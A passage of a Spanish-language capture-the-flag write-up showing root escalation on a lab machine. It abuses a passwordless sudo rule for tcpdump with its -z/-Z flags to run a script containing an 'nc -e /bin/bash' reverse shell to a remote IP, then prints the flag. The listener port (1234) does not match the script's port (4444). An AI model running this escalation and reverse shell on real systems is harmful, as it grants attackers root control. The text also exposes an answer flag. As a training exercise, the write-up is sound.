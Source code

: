```bash
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```
Observamos que, entre otros, tenemos permisos para ejecutar 'tcpdump'. Podemos aprovechar esto creando un script de shell en /tmp, otorgándole permisos de ejecución y, luego, utilizando los indicadores '-z' y '-Z' de tcpdump para ejecutar el script como root y obtener una conexión inversa  

Vamos a iniciar la escucha por Netcat en el puerto 1234 para interceptar la solicitud y carga que utilizaremos a continuación
```bash
nc -lvnp 1234
```
Vamos a crear el script ahora
```bash
echo "nc -e /bin/bash 10.0.1.15 4444" > shell
```
```bash
chmod 777 shell
```
Este comando captura paquetes en la interfaz eth0, imprime cada paquete inmediatamente, sin resolución de nombres de dominio, y descarta los datos capturados. Además, reinicia la captura cada segundo y ejecuta un script desde /tmp/shell después de cada reinicio, todo bajo privilegios de superusuario como root
```bash
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell -Z root
```
Finalmente conseguimso una shell reverse con el usuario root, ahora si nos dirigimos a su directorio /root encontraremos la flag
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
[root@localhost ~]# cd /root
cd /root
[root@localhost ~]# ls
ls
flag.txt
[root@localhost ~]# cat flag.txt
cat flag.txt
[+] You're a soldier. 
[+] One of the best that the world could set against
[+] the demonic invasion.  

+-----------------------------------------------------------------------------+
| |       |\                                           -~ /     \  /          |
|~~__     | \                                         | \/       /\          /|
|    --   |  \                                        | / \    /    \     /   |
|      |~_|   \                                   \___|/    \/         /      |
|--__  |   -- |\________________________________/~~\~~|    /  \     /     \   |
|   |~~--__  |~_|____|____|____|____|____|____|/ /  \/|\ /      \/          \/|
|   |      |~--_|__|____|____|____|____|____|_/ /|    |/ \    /   \       /   |
|___|______|__|_||____|____|____|____|____|__[]/_|----|    \/       \  /      |
|  \mmmm :   | _|___|____|____|____|____|____|___|  /\|   /  \      /  \      |
|      B :_--~~ |_|____|____|____|____|____|____|  |  |\/      \ /        \   |
|  __--P :  |  /                                /  /  | \     /  \          /\|
|~~  |   :  | /                                 ~~~   |  \  /      \      /   |
|    |      |/                        .-.             |  /\          \  /     |
|    |      /                        |   |            |/   \          /\      |
|    |     /                        |     |            -_   \       /    \    |
+-----------------------------------------------------------------------------+
|          |  /|  |   |  2  3  4  | /~~~~~\ |       /|    |_| ....  ......... |
|          |  ~|~ | % |           | | ~J~ | |       ~|~ % |_| ....  ......... |
|   AMMO   |  HEALTH  |  5  6  7  |  \===/  |    ARMOR    |#| ....  ......... |
+-----------------------------------------------------------------------------+

                FLAG: kre0cu4jl4rzjicpo1i7z5l1     

```